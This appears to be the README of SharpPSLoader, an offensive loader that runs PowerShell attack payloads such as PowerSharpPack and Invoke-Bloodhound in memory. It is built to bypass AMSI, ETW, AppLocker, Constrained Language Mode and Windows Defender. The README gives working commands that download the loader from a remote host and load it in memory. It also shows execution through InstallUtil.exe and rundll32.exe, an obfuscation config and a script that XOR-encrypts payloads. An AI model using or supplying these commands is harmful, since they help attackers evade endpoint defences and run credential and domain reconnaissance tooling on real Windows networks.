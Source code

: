 # SharpPSLoader

SharpPSLoader is a loader for [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) and other powershell scripts, designed to bypass AMSI, Constrained Language Mode (CLM), Applocker, and Windows Defender using the [PowerPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) technique and LOLBAS binaries. 


SharpPSLoader works like this: 
1. Decrypt single-byte encrypted powershell payload (currently PowerSharpPack & Invoke-Bloodhound) from its resources section
2. Bypass AMSI and ETW
3. Create custom Powershell runspace and load #1 in-memory 
4. Invoke #1 powershell payload with user argument 

For detailed usage, refer to the `Usage` section below.

## Credits 
All credits goes to [@S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t), [@Jean_Maes_1994](https://twitter.com/Jean_Maes_1994), [@xpn](https://twitter.com/_xpn_), [@3xpl01tc0d3r](https://3xpl01tc0d3r.blogspot.com/), [@mariuszbit/mgeeky](https://twitter.com/mariuszbit), OSEP, and other researchers in the field. I just copy/pasted their code & added couple lines of code and that's all.

## Demo 
SharpPSLoader can be executed on-disk, in-memory, through InstallUtils.exe, and through rundll32.exe. 

![demo](/images/Sharppsloader-demo.gif)

## Usage 

SharpPSLoaderConsole and SharpPSLoaderLibrary can be executed with the following syntax: 
```
./SharpPSLoaderConsole <payload#> <powershell_function & arguments>
ex) ./SharpPSLoaderConsole 1 powersharppack -rubeus -command "triage"
```

Current list of payloads:
```
1 = PowerSharpPack 
2 = Invoke-Bloodhound 
```

### SharpPSLoaderConsole - on-disk console 
```
(new-object net.webclient).downloadfile("http://192.168.40.130:8888/SharpPSLoaderConsole.exe","c:\users\low\SharpPSLoaderConsole.exe")
.\SharpPSLoaderConsole.exe 1 powersharppack -seatbelt -command "-group=user"
```
### SharpPSLoaderConsole - in-memory 
```
$b = (New-Object net.webclient).DownloadData("http://192.168.40.130:8888/SharpPSLoaderConsole.exe")
[System.Reflection.Assembly]::Load($b)
[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("1","Powersharppack -sharpup audit"))

[SharpPSLoaderConsole.SharpPSLoaderConsole]::Main(@("2","Invoke-Bloodhound -c All"))
```

### SharpPSLoaderConsole - LOLBAS - InstallUtils.exe, on-disk
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="<payload#> <powershell_function & argument>" /U .\SharpPSLoaderConsole.exe

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /p="1 PowerSharpPack -seatbelt -Command '-group=user'" /U .\SharpPSLoaderConsole.exe
```

### SharpPSLoaderLibrary - LOLBAS - rundll32.exe, on-disk 
```
(64bit) c:\windows\system32\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user 

(32bit)) C:\Windows\SysWOW64\rundll32.exe SharpPSLoaderLibrary.dll,runLibrary 1 powersharppack -seatbelt -command -group=user
```

## Usage - Powershell Payloads 
For detailed usage of PowerSharpPack and Invoke-Bloodhound, refer to the `References` section down below.

## Obfuscation - Warning 
If you want to obfuscate the assembly with confuserEx and execute it in-memory, use the  `SharpPSLoader-confuser.crproj` configuration file as a template. The configuration file's rules were specifically built to not scramble assembly types and not include compressor so the assembly can be executed in-memory. If you know what you are doing, you do you.  

```
<project outputDir="<output-directory>" baseDir="<base-directory>" xmlns="http://confuser.codeplex.com">
  <module path="SharpPSLoaderConsole.exe">
    <rule pattern="true" preset="normal" inherit="false">
      <protection id="resources" />
      <protection id="rename" action="remove" />
      <protection id="typescramble" action="remove" />
      <protection id="constants" />
      <protection id="ctrl flow" />
    </rule>
  </module>
</project>
```

## Adding Powershell Payloads 
Currently, the powershell payloads are encrypted with single-byte XOR bytes with a hardcode key of "111".

The following powershell script can be used to create a xor encrypted powershell payload.
```
function Invoke-SingleByteXOR{
	param($filepath, $key)

    $xorKey = [System.Convert]::ToByte($key)
	$byteString = [System.IO.File]::ReadAllBytes($filepath)

    $xorData = $(for($i=0; $i -lt $byteString.length; $i++){
        $byteString[$i] = $byteString[$i] -bxor $xorKey
    })

    Set-Content $($filepath+".xor") -Value $byteString -Encoding Byte
}

ps> Invoke-SingleByteXOR c:\dev\powerview.ps1 111 
```

Add the xor'ed payload through `Project right click > Properties > Resources > drag/drop the payload`. 

Then, edit the switch statement in `DecryptedPSFromRsrcDict` function.  

## References & Credits 
- [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
- [Bloodhound](https://github.com/BloodHoundAD/BloodHound)
- https://www.netspi.com/blog/technical/adversary-simulation/evolution-of-offensive-powershell-invocation/
- https://github.com/mgeeky/Stracciatella
- https://blog.xpnsec.com/rundll32-your-dotnet/
- https://3xpl01tc0d3r.blogspot.com/2019/11/managed-dll-exports-and-run-via-rundll32.html